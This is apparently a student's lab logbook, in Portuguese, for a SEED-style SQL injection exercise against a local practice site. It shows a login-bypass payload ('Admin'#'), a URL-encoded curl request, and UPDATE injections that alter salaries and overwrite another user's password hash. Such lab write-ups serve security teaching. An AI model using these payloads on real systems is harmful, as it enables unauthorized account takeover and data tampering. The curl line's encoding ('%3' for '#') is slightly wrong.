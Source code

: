 # SQL Injection
## Setup
Para começar, utilizamos o seguinte comando para editarmos o ficheiro de forma a colocar uma nova entrada nos hosts conhecidos pela máquina virtual: <br>
```
sudo nano/etc/hosts
10.9.0.5 www.seed-server.com %nova entrada
```

Posto isso, passamos à pasta LabSetup e corremos os containers escritos no lab e abrimos uma shell com acesso direto à base de dados manipulada durante os exercícios. <br>
```
dcbuild #docker-compose build
dcup #docker-compose up

dockps
docksh 2c #Para abrirmos uma shel do MySQL container para interagirmos diretamente 
```

>![](images/LOGBOOK8_1.png)

E ficamos assim com o Setup feito e podemos passar às tasks. 


## Tasks

### Task 1: 
Colocamos o comando: <br>
```
 mysql -u root -p 
 ``` 
e colocamos a palavra-passe depois para executarmos o MySQL em modo root. <br>
Posto isto, para escolhermos o schema fizemos: <br>
```
use sqllab_users;
```
e como o objetivo da tarefa é selecionar os dados do utilizador cujo o name é "Alice" usamos o comando: <br>
```
SELECT * FROM credential WHERE Name = "Alice";
```
Finalizamos assim a task 1. 

>![](images/LOGBOOK8_2.png)

 ### Task 2:
Para a task 2 abrimos o site www.seed-server.com e analisamos o código fornecido em unsafe home.php, que demonstra não ser eficaz no que toca a segurança pois a query utilizada: <br>

```php
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’
```
utiliza diretamente as variáveis $input_uname e $hashed_pwd sem que estas sejam sanitizadas, ou seja, que sejam revistas com um processo de limpeza / validação / transformação dos dados para garantir que estejam num formato seguro e adequado. <br>
Devido a essa fragilidade iremos usar isto para conseguir cumprir a tarefa. 

#### Task 2.1:
Para a Task 2.1 temos o objetivo de entrar enquanto administradores. <br>
Pressupondo que o nome do administrador é "Admin" e que não sabemos a senha, podemos colocar como nome de utilizador "Admin'#" para garantir que o comentamos toda a verificação da palavra passe e dessa forma esta ser ignorada no login.<br>
```php
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’Admin'#’ and Password=’$hashed_pwd’
```
Assim ao colocarmos "Admin'#" o que está a acontecer é que o " ' " vai fechar com o anterior e o " # " vai comentar tudo o que vem à frente. <br>
E então conseguimos cumprir a tarefa de fazer login na conta do administrador e desta forma obter dados que pertencem ao resto dos utilizadores da aplicação. <br>

>![](images/LOGBOOK8_3.png)

#### Task 2.2:

Nesta tarefa temos o objetivo de repetir a tarefa 2.1 mas agora através da linha de comandos. Para isso vamos utilizar o comando 'curl' para fazer um pedido GET. <br>
Foi nos dado este exemplo: <br>
```  
$ curl ’www.seed-server.com/unsafe_home.php?username=alice&Password=11’  
``` 
e ainda nos foi avisado que devemos tratar dos caracteres especiais de forma diferente. Podemos adaptar isso e criar outro comando malicioso. Começamos por cifrar os caracteres especiais, usamos o %27 que representa ' e o %23 que representa #: <br>
```
$ curl "www.seed-server.com/unsafe_home.php?username=Admin%27%3&Password=" 
```

>![](images/LOGBOOK8_4.png)

Cumprimos então a tarefa obtendo o código html de toda a página que contém todos os dados que pertencem ao resto dos utilizadores da aplicação.

#### Task 2.3:

Nesta tarefa vamos aproveitar a vulnerabilidade para criar mais uma instrução SQL em vez de simplesmente comentarmos o que vem para a frente. <br>
Para isso, vamos usar ';' para colocar novos comandos de forma a atualizar a tabela. <br>
```sql
admin'; UPDATE credential SET Salary = 90000 WHERE ID = 1 AND Name = 'Alice'; # 
```
Contudo, embora o comando estivesse bem, a operação não foi concluída devido a um erro na base de dados. <br>

>![](images/LOGBOOK8_5.png)

Como mencionado no guião, existe uma contramedida que impede de executarmos duas instruções SQL neste ataque. Isso deve-se a uma extensão de MySQL utilizada pelo PHP do servidor que tem uma proteção que impede a execução de múltiplas queries. Fonte: https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php <br>

### Task 3:

Nesta tarefa vamos aproveitar que ao o user atualizar o perfil é usada uma instrução UPDATE.

#### Task 3.1:

Começamos por aproveitar os dados obtidos e as tarefas realizadas até agora e demos login com o username " Alice'# ". Chegamos à pagina para editar os dados pessoais, a que temos o código no ficheiro unsafe_edit_backend.php. Ao analisar o código repara-se também que existe outra query com vulnerabilidade, que tal como nas tarefas anteriores, não faz a limpeza / validação / transformação dos dados para garantir que estejam num formato seguro e adequado. <br>

>![](images/LOGBOOK8_6.png)

Desta forma, já conseguimos alterar o salário que tentamos na tarefa 2.3. <br>
Como o UPDATE vai atualizar vários campos da tabela "credential" e já reparamos que esta tem também o campo do salário, vamos então criar um comando para colocar no campo do Phone Number para que atualize (para além dos que já vai atualizar) ainda mais, o salário. <br>

```sql
911111111', Salary='90000
```
e dessa forma vai então atualizar estes campos: <br>

```php
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password=’$hashed_pwd’,
PhoneNumber=’911111111’,Salary='90000' WHERE ID=$id;
```

>![](images/LOGBOOK8_7.png)

E conseguimos assim concluir a tarefa 3.1, alterando o salário para um valor mais alto. <br>

#### Task 3.2:

Nesta tarefa vamos fazer algo muito parecido com o anterior, porém vamos alterar o valor do salário do chefe "Boby" para 1. <br>
Conseguimos fazer isso de forma rápida se fizermos um novo WHERE e comentarmos o anterior. Algo deste género: <br>

```sql
911111111', Salary='1' WHERE Name = 'Boby';# 
```

e o resultado fica assim:

```php
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password=’$hashed_pwd’,
PhoneNumber=’911111111', Salary='1' WHERE Name = 'Boby';# WHERE ID=$id;
```

Para vermos isto vamos à shell e corremos: <br>

```sql
SELECT Salary FROM credential WHERE Name='Boby';
```

Antes e depois:

>![](images/LOGBOOK8_8.png)

#### Task 3.3:

Temos como objetivo fazer login através da conta do nosso chefe, e para isso vamos ter de alterar a senha dele. Depois de ter alterado o salário é fácil alterar a senha. <br>
Analisamos o código fornecido em unsafe_edit_backend.php e verificamos que a forma como protegem a palavra passe é com criptografia SHA1. Por isso, para trocarmos a palavra passe para "jafoste" colocamos primeiro em hash "2e2a6402737a5e73c6baad2545f634d6be68d4ba". <br>

```sql
911111111', Password='2e2a6402737a5e73c6baad2545f634d6be68d4ba' WHERE Name = 'Boby';#

```

e o resultado fica assim: <br>

```php
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password=’$hashed_pwd’,
PhoneNumber=’911111111', Password='2e2a6402737a5e73c6baad2545f634d6be68d4ba' WHERE Name = 'Boby';# WHERE ID=$id;
```

>![](images/LOGBOOK8_9.png)

E dessa forma conseguimos então entrar no perfil do Boby com a palavra passe "jafoste".
